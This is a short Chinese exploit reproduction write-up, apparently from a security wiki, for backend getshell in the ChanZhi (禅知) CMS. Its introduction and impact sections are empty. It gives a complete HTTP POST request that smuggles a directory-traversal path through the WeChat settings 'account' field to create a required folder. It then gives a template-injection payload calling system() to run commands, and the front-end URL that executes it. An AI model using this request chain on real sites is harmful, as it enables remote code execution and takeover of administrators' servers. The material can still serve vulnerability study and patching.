


禅知 后台getshell
=================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

后台存在模板编辑，但是如果保存的话需要创建一个/system\\tmp\\xjrg.txt文件，那么我们找到一个可以创建任意文件的地方就

在/system/module/wechat/model.php

\$qrcodeFile未过滤目录穿越导致可以去其他地方创建文件夹通过微信设置原始ID的地方写入穿越的文件路径

    POST /chanzhieps/www/admin.php?m=wechat&f=edit&publicID=1 HTTP/1.1
    Host: 0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    DNT: 1
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Referer: http://localhost/chanzhieps/www/admin.php?m=wechat&f=edit&publicID=1
    Content-Length: 120
    Cookie: adminsid=ae8tu3s80j8cfvh2hkgu41bbig; adminLang=zh-cn; adminDevice=desktop; theme=default; currentGroup=setting; frontsid=eaa0tdicbqfq0lurm89t3n9fvn; frontLang=zh-cn; frontDevice=desktop
    X-Forwarded-For: 8.8.8.8
    Connection: close

    type=subscribe&name=123&account=..%2F..%2F..%2Fsystem%5Ctmp%5Cxjrg.txt%5C1&appID=789&appSecret=100&token=222&certified=0

点一下二维码，再随便传一张图片，可以看到创建了一个xjrg.txt文件夹

现在我们再去编辑模板，{!echo(system(\'ipconfig\'))},可以直接写入一句话

然后在访问前台

http:/0-sec.org/chanzhieps/www/index.php/sitemap/

